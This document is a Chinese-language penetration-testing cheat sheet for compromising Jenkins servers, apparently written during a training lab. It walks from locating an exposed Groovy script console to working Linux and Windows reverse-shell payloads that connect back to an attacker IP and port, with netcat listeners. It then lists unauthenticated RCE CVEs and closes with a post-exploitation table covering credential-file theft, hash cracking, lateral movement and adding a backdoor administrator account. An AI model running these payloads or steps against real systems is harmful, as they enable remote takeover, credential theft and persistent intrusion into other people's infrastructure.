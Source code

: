 ```yaml
---
description: >-
  Jenkins是一個用 Java 編寫的開源自動化伺服器，可協助開發人員持續建立和測試他們的軟體專案。它是一個基於伺服器的系統，在 Tomcat 等
  servlet 容器中運行。多年來，研究人員發現了 Jenkins 中的各種漏洞，其中一些漏洞允許無需身份驗證的遠端程式碼執行。 Jenkins
  是一個持續整合伺服器。以下是有關 Jenkins 的一些有趣點：
---
```


# Jenkins

## <mark style="color:red;">**1. 發現點**</mark>

#### 發現 Jenkins 實例嘅方法：

1️⃣ **Nmap 掃描結果**

* 典型埠口：
  * `8080`（Jenkins Web UI）
  * `50000`（Jenkins Slave 通訊）\
    2️⃣ 瀏覽器打開：

```
http://jenkins.inlanefreight.local:8080/
```

* 如果直接可進入 UI、或 `/script` console 就係未設安全保護嘅超大機會

## <mark style="color:red;">**2. 測試Payload**</mark>

### ✅ 二、存取 Groovy Script Console

路徑：

```
http://jenkins.inlanefreight.local:8080/script
```

> **Groovy Console** 容許執行任意系統指令，如果冇身份驗證，直接可以執行任意 RCE。

***

### ✅ 三、測試 Payload & 拎反彈 Shell

#### 1️⃣ Linux 反彈 shell

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/你的IP/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

然後開 Netcat：

```
nc -lvnp 8443
```

> 成功即見到 `www-data` 或 Jenkins 用戶。

***

#### 2️⃣ Windows 系統反彈 shell

```groovy
String host="你的IP";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){
    while(pi.available()>0)so.write(pi.read());
    while(pe.available()>0)so.write(pe.read());
    while(si.available()>0)po.write(si.read());
    so.flush();po.flush();Thread.sleep(50);
    try {p.exitValue();break;}catch (Exception e){}
};
p.destroy();s.close();
```

Netcat 等 8044 端口接收。

***

## <mark style="color:red;">3. CVE 漏洞利用</mark>

#### 1️⃣ CVE-2018-1999002 & CVE-2019-1003000

* **無認證 RCE**
* 方法係透過 Jenkins 動態路由缺陷，上傳 Groovy jar 執行
* 適用版本：`Jenkins <= 2.137`

#### 2️⃣ CVE-2019-1003000 (沙盒繞過)

* 可利用腳本 console 上繞過 sandbox 限制
* 如果 console 有 read 權限，都可以利用

#### 3️⃣ CVE-2019-1003029 & CVE-2019-1003030

* 利用「Pipeline 輸入」或 Job 建立時可以執行 RCE
* 匿名用戶擁有 Job create + build 權限時可以直接上 shell

## <mark style="color:red;">5. 連鎖漏洞</mark>

| 階段         | 操作                                                                                            |
| ---------- | --------------------------------------------------------------------------------------------- |
| 系統權限確認     | `whoami` / `id` / `hostname`                                                                  |
| Windows 情況 | 大多 Jenkins service 以 **SYSTEM** 權限執行                                                          |
| 內網枚舉       | `ipconfig /all`、`net view`、`net user /domain`、`nltest /dclist`                                |
| 抓取憑證       | Windows：`dir C:\Users\Administrator\Desktop\*`、Linux：`cat /var/lib/jenkins/config.xml`（可能有密碼） |
| 破解密碼或 Hash | 將發現的 hash 用 `john`、`hashcat` 去 crack                                                          |
| 橫向滲透       | 用抓到嘅帳密登入其他服務 / WinRM / SMB / RDP                                                              |
| 提權         | `whoami /priv` 查系統特權 / `schtasks /query` 查定時任務                                                |
| 持久化        | 增加系統用戶 `net user pwned Passw0rd! /add` 並加到 admin：`net localgroup administrators pwned /add`   |
